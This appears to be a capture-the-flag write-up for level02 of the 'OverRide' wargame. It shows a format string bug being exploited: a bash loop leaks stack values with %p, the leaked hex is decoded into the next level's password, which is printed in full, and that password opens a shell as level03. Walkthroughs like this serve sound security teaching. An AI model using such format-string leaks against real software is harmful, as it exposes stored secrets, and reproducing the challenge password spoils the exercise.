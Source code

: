 # Level02

## Analysis

So there are several interesting things here, first thing is that the level 3 password is read and stored inside of `buf_1`.

There is also a `bin/sh` later but to get there we need to input the level 3 password which isn't really feasible...

However, at the end of the program, if we didn't input the right password, `printf(%var_78)` is called, which can lead to a format string exploit!

## Requirements

Well, we can use `%p or %x` to pop the values of the stack and read them, however inputting them manually is tedious so we'll use this little bash script:

```bash
for(( i = 1; i < 30; i++)); do echo "$i | %$i\$p" | ./level02 | grep does; done
```

This will execute the program 30 times, each loop will print the current iteration and use "%{i}p" which will fetch the "i"th value from the stack.

```bash
level02@OverRide:~$ for(( i = 1; i < 30; i++)); do echo "$i | %$i\$p" | ./level02 | grep does; done   
1 | 0x7fffffffea10 does not have access!
2 | (nil) does not have access!
3 | (nil) does not have access!
4 | 0x2a2a2a2a2a2a2a2a does not have access!
5 | 0x2a2a2a2a2a2a2a2a does not have access!
6 | 0x7fffffffec08 does not have access!
7 | 0x1f7ff9a08 does not have access!
8 | (nil) does not have access!
9 | (nil) does not have access!
10 | (nil) does not have access!
11 | (nil) does not have access!
12 | (nil) does not have access!
13 | (nil) does not have access!
14 | (nil) does not have access!
15 | (nil) does not have access!
16 | (nil) does not have access!
17 | (nil) does not have access!
18 | (nil) does not have access!
19 | (nil) does not have access!
20 | 0x100000000 does not have access!
21 | (nil) does not have access!
22 | 0x756e505234376848 does not have access!
23 | 0x45414a3561733951 does not have access!
24 | 0x377a7143574e6758 does not have access!
25 | 0x354a35686e475873 does not have access!
26 | 0x48336750664b394d does not have access!
27 | (nil) does not have access!
28 | 0x383225207c203832 does not have access!
29 | 0x7024 does not have access!
```

What's interesting here is that it gives us a block of long hex values from the stack, from 22 to 26. Surprisingly, this is our password!

## Exploit

<details>
    <summary>Spoiler</summary>

We can then decode this block using the following command:

```bash
level02@OverRide:~$ python -c 'print "48336750664b394d354a35686e475873377a7143574e675845414a3561733951756e505234376848".decode("hex")[::-1]'                                                                   
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

We need the `[::-1]` since the address little endian.

With this we can pass the check:

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: uwu
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, uwu!
$ whoami
level03
$
```

</details>